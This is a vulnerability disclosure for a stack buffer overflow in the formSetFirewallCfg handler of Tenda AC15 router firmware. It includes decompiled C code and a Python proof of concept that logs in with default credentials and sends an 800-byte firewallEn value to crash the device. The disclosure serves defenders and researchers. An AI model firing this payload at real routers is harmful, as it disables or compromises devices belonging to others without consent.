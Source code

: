 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function formSetFirewallCfg, the content obtained by the program from the parameter "firewallEn" is passed to local_20, 
and then the local_20 is directly copied into the local_38 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formSetFirewallCfg(undefined4 param_1)
{
  ...
  local_20 = (char *)FUN_0002ba8c(param_1,"firewallEn",&DAT_000f2e68);
  __src = (char *)strlen(local_20);
  if ((char *)0x3 < __src) {
    strcpy((char *)&local_38,local_20); // here is overflow
    GetValue("security.ddos.map",acStack120);
    GetValue("firewall.pingwan",&local_80);
    sprintf(acStack256,"%c,1500;%c,1500;%c,1500",local_38 & 0xff,local_38 >> 0x10 & 0xff,
            local_38 >> 8 & 0xff);
    SetValue("security.ddos.map",acStack256);
    SetValue("firewall.pingwan",(int)&local_38 + 3);
    memset(acStack256,(int)&DAT_000f2e9c,0x40);
 ...
}
```

### * POC
```python
import requests


cmd  = b'firewallEn=' + b'A' * 800



url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/SetFirewallCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
